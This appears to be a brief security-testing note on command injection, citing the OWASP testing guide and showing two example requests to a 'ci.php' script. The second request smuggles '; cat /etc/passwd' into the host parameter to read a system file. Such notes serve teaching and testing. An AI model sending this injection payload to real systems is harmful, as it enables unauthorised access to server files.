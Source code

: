 # Command Injection
[Reference][1]

```
ci.php?host=tu-clausthal.de
ci.php?host=tu-clausthal.de; cat /etc/passwd
```

[1]: https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)

